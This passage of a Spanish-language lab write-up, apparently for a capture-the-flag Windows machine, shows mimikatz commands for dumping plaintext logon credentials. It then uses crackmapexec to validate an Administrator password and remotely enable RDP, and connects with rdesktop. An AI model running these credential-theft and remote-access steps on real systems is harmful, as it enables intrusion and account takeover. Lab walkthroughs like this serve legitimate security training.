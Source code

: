 Con esto damos lugar al siguiente paso

## Obtaining credentials stored in memory MIMIKATZ + Windows Defender Evasion

Ahora con mimikatz vamos a conseguir las credenciales en texto plano.
Empezamos ejecutando mimikatz con el nombre del ejecutable que hemos pasado. Despues escribimos:
```python
privilege::debug
```
Nos muestra los privilegios
Seguidamente ponemos para obtener la contraseña en texto claro:+
```python
sekurlsa::LogonPasswords
```


![Desktop View](/assets/img/Blue/Pasted image 20221103152046.png){: width="972" height="589" }
De hecho con crackmapexec  podemos comprobar que el sistema esta vulenrado con esa contraseña:
```python
crackmapexec smb 10.129.58.241 -u 'Administrator' -p 'ejfnIWWDojfWEKM'
```

![Desktop View](/assets/img/Blue/Pasted image 20221103152435.png){: width="972" height="589" }

La maquina no tiene abierto el [[Puerto 3389]] que es el correspondiente al RDP, para tener un entorno grafico operativo. Desde el terminal podemos abrir este puerto para poder conectarnos remotamente al GUI.
Comprobamos con netstat si el peurto esta abierto:
```python
netstat -nat
```

Con crackmapexec tiene un modulo para habilitar el [[RDP -  Remote Desktop Protocol]] 
```python
crackmapexec smb 10.129.58.241 -u 'Administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable
```

Obtenemos esto:

![Desktop View](/assets/img/Blue/Pasted image 20221103153343.png){: width="972" height="589" }

Y podemos comprobar si el puerto esta abierto con netstat desde la victima o con nmap desde el atacante.

![Desktop View](/assets/img/Blue/Pasted image 20221103153536.png){: width="972" height="589" }

Ahora nos conectaremos de manera remota con este comando:
```python
rdesktop 10.129.58.241 -u 'Administrator' -p 'ejfnIWWDojfWEKM'
```
Y ya tenemos nuestro entorno grafico:


![Desktop View](/assets/img/Blue/Pasted image 20221103154128.png){: width="972" height="589" }
## Persistencia en Windows
